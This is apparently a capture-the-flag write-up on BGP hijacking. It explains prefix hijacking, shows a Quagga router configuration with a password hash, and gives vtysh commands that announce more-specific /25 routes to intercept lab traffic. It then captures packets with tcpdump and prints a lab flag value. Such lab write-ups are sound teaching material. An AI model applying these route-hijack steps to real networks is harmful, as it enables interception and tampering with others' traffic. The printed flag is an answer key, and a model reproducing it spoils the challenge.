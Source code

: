 ### What Is BGP Hijacking?

BGP hijacking occurs when an AS announces IP address spaces belonging to another AS. This announcement attracts traffic meant for that IP address range.

Other common names for BGP hijacking are:

- **Prefix** hijacking.
- **Route** hijacking.
- **IP** hijacking.

BGP hijacking occurs when someone or something corrupts the routing tables maintained by AS routers. This corruption enables a backbone router to improperly advertise as having the most efficient route to a network.

Since BGP always favors the shortest path to the desired IP address, anyone looking to cause a BGP hijack must create a route announcement that either:

- Provides a more specific route with a smaller range of IP addresses than other ASes.
- Offers a shorter route to certain blocks of IP addresses.

Both strategies require the hacker to either control an AS router or compromise one of approx. 80,000 currently operational ASes. This process is easier said than done, which is why most malicious BGP hijacks are the work of highly skilled and well-funded hacker groups.

BGP hijacking enables attackers to reroute Internet traffic to the wrong destination or route. Rerouting traffic enables a threat actor to intercept, spy on, or tamper with transmitted data.

![How BGP hijacks work](https://phoenixnap.com/blog/wp-content/uploads/2023/11/how-bgp-hijacks-work.jpg)

The easiest way to understand BGP hijacking is to compare it to someone secretly changing all the signs on a stretch of freeway and rerouting traffic onto incorrect exits.

![[Pasted image 20240417143321.png]]

### Quagga

You saw “quagga” mentioned in the Router exploration section , but what is quagga ?  
Basically quagga is a routing software and since quagga is installed on this host then most likely we are going to perform bgp-hijacking or route-hijacking.

You can see there are two configuration files:\

#### /etc/quagga/bgpd.conf

```
!
hostname router1
password a0ceca89b47161dd49e4f6b1073fc579
log stdout
!
debug bgp updates
!
router bgp 60001
 bgp log-neighbor-changes
 bgp router-id 1.1.1.1
 network 172.16.1.0/24
 
 neighbor 172.16.12.102 remote-as 60002
 neighbor 172.16.12.102 weight 100
 neighbor 172.16.12.102 soft-reconfiguration inbound
 neighbor 172.16.12.102 prefix-list LocalNet in
 
 neighbor 172.16.31.103 remote-as 60003
 neighbor 172.16.31.103 weight 100
 neighbor 172.16.31.103 soft-reconfiguration inbound
 neighbor 172.16.31.103 prefix-list LocalNet in
!
# Deny any changes to routing to the local network
ip prefix-list LocalNet seq 5 deny 172.16.1.0/24 le 32
ip prefix-list LocalNet seq 10 permit 0.0.0.0/0 le 32
!
line vty
!
end
#

```

This router is AS 60001
There are another 2 AS:

60002 and 60003

### Configuration with VTYSH

VTYSH provides a unified command-line interface for managing multiple network services and protocols, such as routing protocols (e.g., BGP, OSPF) and network configuration settings.

When you enter the "vtysh" command, you're essentially accessing a shell environment where you can interact with the networking device and configure various aspects of its operation, such as routing tables, network interfaces, and protocol settings.

Run:

```
$ vtysh
```

router1.ctx.ctf# $ 

 Once into vtysh run the following to see the neighbors:

```
 $ show bgp neighbors

```

> BGP neighbor is 172.16.12.102, remote AS 60002, local AS 60001, external link
> ...
> BGP neighbor is 172.16.31.103, remote AS 60003, local AS 60001, external link
> ...


#### Routing tables

Run:

```
 $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

> ![[bgp.png]]

You can see there are two networks 172.16.1.0/24 and 172.16.3.0/24, so if you get connected to the 172.16.2.0/24 you'd intercept all traffic.

Run the following commands:

```
$ configure terminal
router1.ctx.ctf(config)# $ router bgp 60001
router bgp 60001
router1.ctx.ctf(config-router)# $ network 172.16.2.0/25
router1.ctx.ctf(config-router)# $ network 172.16.3.0/25

```

Exit the terminal with the two `exit` commands.

See how the configuration has changed:

```
router1.ctx.ctf#$ show ip bgp neighbors 172.16.12.102 advertised-routes
```

![[bgp1.png]]

> [!NOTE] Address 172.16.2.0/25
>   
The network address "172.16.2.0/25" represents a subnet with the following characteristics:

> - Network Address: 172.16.2.0
> - Subnet Mask: 255.255.255.128 (/25 in CIDR notation)
> - Usable IP Range: 172.16.2.1 to 172.16.2.126
> - Broadcast Address: 172.16.2.127
> 
> In CIDR notation (/25), the subnet mask has 25 leading bits set to 1, indicating the network portion of the address, and the remaining 7 bits set to 0, allowing for 128 possible host addresses in the subnet.
> 
> This subnet falls within the private IP address range defined by RFC 1918, commonly used in local area networks (LANs) for internal communication.

#### Capturing packets


You're telling `tcpdump` to capture packets on the `eth0` interface and print each packet's content in ASCII format, including both the packet header and payload.

- The `-i` option, it specifies the network interface to capture packets from. In your command, `eth0` is the network interface specified.

- The `-A` option tells `tcpdump` to print each packet in ASCII format, displaying both the packet's header and its payload as ASCII characters.

```
$ tcpdump -i eth0 -A

```

#### UDP flag
Look at the packets and you'll find the FLAG:UDP.

![[udp_flag.png]]

The flag is {FLAG:UDP: 3bb271d020df6cbe599a46d20e9fcb3c

#### TCP flag
Depending on how you view your dumped data, the TCP flag can be a bit more of a pain than the UDP one. In particular, it is sent 1 character at a time – if you dump full packets (not just the data payload), you would need to notice it and manually put it back together.